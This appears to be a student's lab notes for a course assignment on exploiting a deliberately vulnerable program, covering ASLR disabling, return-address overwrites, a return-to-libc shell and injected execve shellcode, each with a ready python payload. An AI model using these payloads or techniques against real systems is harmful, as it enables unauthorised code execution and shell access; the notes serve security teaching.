




echo 0 > /proc/sys/kernel/randomize_va_space.unset env LINES and unset env COLUMNS to match gdb and shell environment variables./home/xyz/assignment4/executable instead of ./executable.make clean.make.Get address of instruction just after jmp statement and overflow the buffer to put it in IsPasswordOkay's return address.

E.g. /path/to/executable/hackthisprogram1_64.out $(python -c '__import__("sys").stdout.buffer.write(b"A"*12+b"B"*16+b"C"*8+b"\x24\x52\x55\x55\x55\x55\x00\x00")')
Get address of system function from libc using p system in gdb.

Get starting and ending address of all memory occupied by libc using info proc map.
Get address of /bin/sh string from the libc address space using find <starting addr>,<ending addr>,"/bin/sh".

Overflow the buffer to replace return address with address of system function call and address of string /bin/sh as it's argument.
E.g. /path/to/executable/hackthisprogram1_32.out $(python -c '__import__("sys").stdout.buffer.write(b"\x41"*24+b"\x40\x98\xc4\xf7"+b"\x42"*4+b"\xaa\xaf\xdb\xf7")')
Get shellcode using make shellcode, which produces 36 byte shellcode.
Get starting address of Password buffer using x Password in gdb. This is where shellcode execution will start from.

Overflow the buffer to replace return address with starting address of Password buffer.
Additionally prepend the shellcode with \x91.
E.g /path/to/executable/hackthisprogram1_mod_64.out $(python -c '__import__("sys").stdout.buffer.write(b"\xeb\x08\x2f\x62\x69\x6e\x2f\x73\x68\xff\x31\xc0\x88\x05\xf7\xff\xff\xff\x48\x8d\x3d\xe9\xff\xff\xff\x50\x57\x48\x89\xe6\x31\xd2\xb0\x3b\x0f\x05"+b"\x41"*36+b"\x50\xd9\xff\xff\xff\x7f\x00\x00")')